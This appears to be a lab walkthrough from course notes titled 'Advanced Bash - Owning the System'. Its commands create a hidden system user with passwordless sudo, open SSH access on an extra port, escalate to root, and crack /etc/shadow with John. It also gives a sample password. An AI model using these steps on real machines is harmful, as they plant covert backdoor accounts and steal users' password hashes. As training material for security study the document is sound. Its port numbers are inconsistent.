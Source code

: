 # Advanced Bash - Owning the System

Step 1: Shadow People
- 1. Create a secret user named sysd. Make sure this user doesn't have a home folder created:
  - sudo useradd --system --no-create-home sysd

![](/Linux/Images/AB-1-create-user.png)


- 2. Give your secret user a password:
  - Sudo passwd sysd



- 3. Give your secret user a system UID < 1000
    - sudo usermod -u 997 sysd




- 4. Give your secret user the same GID:
    - sudo groupmod -g 997 sysd


- 5. Give your secret user full sudo access without the need for a password:
    - sudo visudo


- 6. Test that sudo access works without your password:
    - su sysd
    - Passw0rd










- Step 2: Smooth Sailing
  - 1. Edit the sshd_config file:
    - sudo nano /etc/ssh/sshd_config




- Step 3: Testing Your Configuration Update
  - 1. Restart the SSH service:
    - systemctl restart ssh

 - 2. Exit the root account
    - exit   (see bottom of the screenshot to see “exit”)




  - 3. SSH to the target machine using your sysd account and port 2222:
    - ssh sysd@192.168.1.23 -p 2222




  - 4. Use sudo to switch to the root user:
    - sudo su root




- Step 4: Crack All the Passwords
  - 1. SSH back to the system using your sysd account and port 2222:
    - ssh sysd@192.168.1.23 -p 22


 - 2. Escalate your privileges to the root user. Use John to crack the entire /etc/shadow file:
    - sudo su root
    - john /etc/shadow
